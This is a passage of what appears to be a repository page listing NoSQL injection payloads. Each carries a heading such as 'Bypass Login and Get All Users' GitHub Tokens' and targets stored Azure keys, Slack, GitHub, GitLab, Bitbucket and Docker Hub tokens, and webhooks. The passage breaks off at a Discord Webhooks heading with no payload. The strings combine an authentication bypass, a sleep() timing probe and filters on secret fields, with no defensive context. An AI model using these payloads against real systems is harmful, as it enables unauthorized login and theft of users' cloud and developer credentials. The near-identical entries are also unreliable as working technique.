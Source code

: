 #### Bypass Login and Get All Users' Azure Access Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.azure_access_key != null
```

#### Bypass Login and Get All Users' Azure Secret Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.azure_secret_key != null
```

#### Bypass Login and Get All Users' Slack Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.slack_token != null
```

#### Bypass Login and Get All Users' GitHub Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.github_token != null
```

#### Bypass Login and Get All Users' GitLab Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.gitlab_token != null
```

#### Bypass Login and Get All Users' Bitbucket Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.bitbucket_token != null
```

#### Bypass Login and Get All Users' Docker Hub Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.docker_hub_token != null
```

#### Bypass Login and Get All Users' Slack Webhooks

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.slack_webhook != null
```

#### Bypass Login and Get All Users' Discord Webhooks
